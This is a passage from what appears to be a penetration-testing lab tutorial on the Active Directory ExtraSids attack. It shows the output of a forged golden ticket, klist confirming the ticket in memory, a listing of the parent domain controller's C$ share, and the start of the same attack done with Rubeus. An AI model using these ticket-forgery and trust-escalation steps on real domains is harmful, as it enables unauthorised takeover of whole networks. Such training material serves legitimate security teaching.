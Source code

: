 ```powershell
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```
## Confirming a Kerberos Ticket is in Memory Using klist
  
```powershell
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
From here, it is possible to access any resources within the parent domain, and we could compromise the parent domain in several ways.
```
## Listing the Entire C: Drive of the Domain Controller

```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs
10/06/2021  01:50 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
11/19/2021  12:17 PM    <DIR>          Shares
10/06/2021  10:31 AM    <DIR>          Users
03/21/2022  12:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  18,080,178,176 bytes free
```
## ExtraSids Attack - Rubeus
###### We can also perform this attack using Rubeus. First, again, we'll confirm that we cannot access the parent domain Domain Controller's file system.
## Using ls to Confirm No Access Before Running Rubeus
  